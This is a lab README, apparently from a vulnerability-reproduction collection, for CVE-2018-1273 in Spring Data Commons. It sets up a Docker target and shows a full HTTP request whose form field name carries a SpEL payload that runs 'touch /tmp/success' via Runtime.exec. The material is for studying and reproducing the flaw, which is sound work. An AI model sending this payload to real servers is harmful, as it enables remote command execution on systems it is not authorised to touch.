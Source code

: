 # Spring Data Commons Remote Code Execution (CVE-2018-1273)

[中文版本(Chinese version)](README.zh-cn.md)

Spring Data is an open-source framework designed to simplify database access and support cloud services. Spring Data Commons serves as the foundational framework shared by all sub-projects under Spring Data.

In versions 2.0.5 and earlier of Spring Data Commons, there exists a SpEL (Spring Expression Language) injection vulnerability that allows attackers to inject malicious SpEL expressions to execute arbitrary commands.

Reference links:

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## Environment Setup

Execute the following command to start a Web application based on Spring Data Commons 2.0.5:

```
docker compose up -d
```

After a short wait and once the server starts, visit `http://your-ip:8080/users` to see a user registration page.

## Vulnerability Reproduce

Referring to the payload from the reference links, intercept the registration request and modify it to the following:

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

Execute `docker compose exec spring bash` to enter the container, and you can see that `/tmp/success` has been successfully created, indicating that the command execution was successful:

![](1.png)
